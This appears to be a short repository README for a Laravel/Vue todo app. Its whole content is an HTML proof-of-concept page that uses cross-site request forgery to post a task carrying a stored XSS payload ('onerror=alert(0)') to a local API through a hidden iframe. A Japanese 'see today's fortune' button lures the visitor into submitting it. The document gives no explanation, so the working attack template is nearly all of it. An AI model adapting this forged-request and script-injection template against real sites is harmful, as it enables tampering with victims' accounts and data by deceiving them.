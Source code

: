 # laravel-vuejs

<form action="http://todo-spa.loc:8080/api/tasks" method="post" target="if">
<input type="hidden" name="_method" value="POST">
<input type="hidden" name="content" value='<img src="" onerror="alert(0)">'>
<input type="hidden" name="id" value="11">
<input type="hidden" name="person_in_charge" value="Hacker">
<input type="hidden" name="title" value="Your task has hacked">
<input type="submit" value="押すと今日の運勢が見れるよ" onclick="alert('大吉です！');">
<iframe name="if" id="if" width="1" height="1">
</iframe>
</form>


